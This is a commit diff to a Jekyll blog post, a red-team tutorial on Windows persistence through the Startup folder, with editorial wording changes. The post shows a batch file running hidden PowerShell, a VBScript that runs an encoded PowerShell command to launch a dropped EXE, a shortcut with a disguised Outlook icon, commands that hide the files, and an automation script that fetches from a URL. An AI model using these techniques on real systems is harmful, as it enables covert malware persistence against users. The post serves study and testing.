

Before and after one commit to ricardojoserf/ricardojoserf.github.io, a Jekyll site: the page built from _posts/2024-1-23-startupfolder.md, in a window 1280 px wide and 1400 px high, scrolled down 600 px. Shown: the whole window at 91% size, without its empty margins (118-1161 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
Update 2024-1-23-startupfolder.md

````diff
--- a/_posts/2024-1-23-startupfolder.md
+++ b/_posts/2024-1-23-startupfolder.md
@@ -32,21 +32,21 @@ This file can be an executable program (".exe" extension) but it can also be a B
 
 From a non-attacker perspective, it is common to see big organizations using this and other similar techniques to make all the employee laptops to launch specific programs when the Operating System (usually Windows) starts. In this case, one approach is using shortcuts to open each of these programs: Teams, Outlook, Chrome...
 
+For this specific case, we find a laptop where there are shortcuts to open some programs in the Startup folder, which open all the programs the employee needs for its daily work. However, even if the user uses Outlook everyday, there is not a shortcut for the program. Furthermore, our goal is to run a .exe file every time the user boots the computer without any cmd window popping up
+
 <br>
 
 ## Executing a EXE without a window popping up
 
-##### First fail: Powershell's window style hidden
+##### Failed approach: Powershell's window style hidden
 
-For this specific case, we find a laptop where there are shortcuts to open some programs in the Startup folder, which open all the programs the employee needs for its daily work. However, even if the user uses Outlook everyday, there is not a shortcut for the program.
-
-Furthermore, our goal is to run a .exe file every time the user boots the computer without any cmd window popping up, so first I tried to create a Batch file to execute the EXE file in the path:
+First, I created a Batch file in the path:
 
 ```
 C:\Users\USER\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\UpdateOutlook.bat
 ```
 
-The content of the file executes a Powershell command which executes the program in the path "c:\temp\OutlookUpdate.exe" and hides the window (that is why we use "-windowstyle hidden"):
+And this is the content of the file, a Powershell command which executes the program in the path "c:\temp\OutlookUpdate.exe" and hides the window immediately (that is why we use "-windowstyle hidden"):
 
 ```
 powershell -windowstyle hidden -command c:\temp\OutlookUpdate.exe
@@ -54,12 +54,12 @@ powershell -windowstyle hidden -command c:\temp\OutlookUpdate.exe
 
 What is the biggest problem with this approach? Even if you run this in an good, new, optimized computer, the window will pop up even if it is for half a second. If the computer is older, the time the window appears in the screen will be longer, and having the previous Powershell command for more than 15 seconds in the user's screen is probably not the most OPSEC option.
 
-Could we encode the Powershell command? Of course we could, but it is even better if we avoid the window appearing even for half a second.
+Could we encode the Powershell command? Of course, but it is even better if we avoid the window appearing even for half a second.
 
 
 ##### Changing Powershell for VBScript
 
-For that we will use a .VBS script, which will not pop any cmd window. For example, the following script will execute an encoded powershell command which will call "c:\ProgramData\Outlook\OutlookUpdate.exe". If we create a .VBS script with this content in the Startup folder, the program will get executed and there will be no window popping the user could ever see:
+To avoid any windows appearing in the screen, we will use a VBScript file. For example, the following script will execute an encoded powershell command which will call "c:\ProgramData\Outlook\OutlookUpdate.exe". If we create this file in the Startup folder, the program will get executed and there will be no window popping the user could ever see:
 
 ```
 Set objShell = WScript.CreateObject(""WScript.Shell"")
@@ -69,9 +69,9 @@ objShell.Run(""powershell -e YwA6AFwAUAByAG8AZwByAGEAbQBEAGEAdABhAFwATwB1AHQAbAB
 
 ##### Shortcut files
 
-But, knowing the folder contains mostly shortcuts, maybe it makes more sense if the .VBS script is generated in other folder and we just leave a shortcut to it in the Startup folder.
+But, knowing the folder contains mostly shortcuts, maybe it makes more sense if the VBScript file is generated in other folder and we just leave a shortcut to it in the Startup folder.
 
-Furthermore, we will change the shortcut icon to a more reliable-looking one. We can do this using WScript:
+Furthermore, we will change the shortcut icon to a more reliable-looking one, and for this example we will use an Outlook icon. We can generate the file shortcut using WScript:
 
 ```
 $WshShell = New-Object -comObject WScript.Shell
@@ -84,30 +84,28 @@ $Shortcut.Save()
 
 ##### Hidden files
 
-Finally, we know we will have four files:
+Finally, now we know we will need four files:
 
 - The shortcut file in the Startup folder.
 - The icon file used by the shortcut file.
 - The VBScript file called by the shortcut.
 - The EXE file we wanted to execute in the system at startup.
 
-We will drop the icon and EXE file and generate the shortcut and VBScript file, and the four files will be on disk.
+We will drop the icon and EXE file and generate the shortcut and the VBScript file, and the four files will be on disk.
 
-We can use the "hidden" attribute so the files are not visible in the folder (by default, but you probably have File Explorer configured to see hidden items) or running "dir" (you should run "dir /a" to see these files). We could use:
+We can use the "hidden" attribute so the files are not visible in the folder (by default, even if you probably have File Explorer configured to see hidden items) or running "dir" (you should run "dir /a" to see these hidden files). For this we could use:
 
 ```
 attrib -h C:\ProgramData\Outlook\OutlookUpdate.exe
 ```
 
-
-It is important to notice that the shortcut file can not be "hidden", but the icon, VBScript and EXE files can.
+From my tests, it is important to notice that the shortcut file can not be "hidden", but the VBScript, EXE and even the icon file can be.
 
 <br>
 
 ## Final scripts
 
-This process is automated in the following script:
-
+This process is automated in the following [script](https://gist.github.com/ricardojoserf/d021310080ea34c8c6187d82065dde85):
 
 ```
 $Url = "http://127.0.0.1:8080"
@@ -151,7 +149,7 @@ cmd /c "dir /a ""$($env:USERPROFILE)\AppData\Roaming\Microsoft\Windows\Start Men
 ```
 
 
-And this is the script to delete the files:
+And this is the [script](https://gist.github.com/ricardojoserf/6e1a242e77a52c78b630af22d5709153) to delete the files generated for the persistence (basically you have to unset the "hidden" attribute before deleting a file, you could also delete the folder but I think it is risky to do that in a script):
 
 ```
 $Dir="C:\ProgramData\Outlook"
````
Also changed, not shown: other parts of _posts/2024-1-23-startupfolder.md (+1 -1 lines).
